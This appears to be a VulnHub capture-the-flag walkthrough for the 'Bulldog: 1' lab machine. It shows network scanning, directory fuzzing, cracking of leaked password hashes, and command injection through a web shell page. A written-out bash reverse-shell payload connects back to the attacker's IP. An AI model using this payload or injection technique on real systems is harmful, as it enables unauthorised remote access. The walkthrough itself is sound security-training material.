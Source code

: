 # Bulldog: 1

## 1.Get VM IP:

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:3c:59:b7       PCS Systemtechnik GmbH
192.168.56.107  08:00:27:38:4c:8d       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.107`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -oN nmap.out 192.168.56.107

Nmap scan report for 192.168.56.107
Host is up (0.00050s latency).

PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (ED25519)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
MAC Address: 08:00:27:38:4C:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port `23` is used for ssh and we now visit the web application :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c08d7dd9-9063-48ab-8cad-6b6738e1844f)

we try to fuzz the directories :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.107

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://192.168.56.107/admin/]
/dev                  (Status: 301) [Size: 0] [--> http://192.168.56.107/dev/]
/notice               (Status: 301) [Size: 0] [--> http://192.168.56.107/notice/]
```

visiting the `/admin` page shows a django admin panel login, but we need username and password:

![admin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/13a0ccf5-917f-4ec7-9a9b-0cbdcdde5fdb)

so we go to `/dev` : 

![dev](https://github.com/Git-K3rnel/VulnHub/assets/127470407/98c856d8-e169-4fc9-9b2c-2daf686fabde)

here we see afew users mentioned at the bottom of the page, but if we see the page source we find user passwords hashes too :

![hash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fee2a848-115a-40e9-b002-823b1782c436)

we try to crack these hashes and only 2 of them is cracked, the one for user `nick` and `sarah`.

use an online resource to crack the hashes :

```text
nick  | ddf45997a7e18a25ad5f5cf222da64814dd060d5 = bulldog
sarah | d8b8dd5e7f000b8dea26ef8428caf38c04466b3e = bulldoglover
```

there is also a link in `/dev` which redirects us to `/dev/shell` and here we must first be authenticated :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3f52cd3b-6c74-4d25-8158-f5da8909a0de)

since we found passwords of the users, try to login to `/admin` path with user nick or sarah :

![login](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f754b5c3-8af8-44dc-9f6d-9cf2e93f4ab1)

now we can go to `/dev/shell` and this page is shown :

![webshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2b55ef5b-1d21-411d-9251-10c8e5001961)

here we can run afew commands, but if we use `&&` we can execute another command too, so there is a command injection vulnerability here :

![injection](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6bf10839-4cad-4c49-9237-266ce302abba)

so we can get a reverse shell.

## 3.Gaining Shell

I just made a file with a reverse shell payload in it and called it `shell.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```

then served a python http server and used wget to download and put the file in `/dev/shm` directory of the victim :

![wget](https://github.com/Git-K3rnel/VulnHub/assets/127470407/112e8ae4-5a2e-4a00-b748-d05714c81a02)

then start a listener on your machine and just execute it with another bash command :

![bash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4ce5f34f-db6a-491d-9c66-a4149345860f)







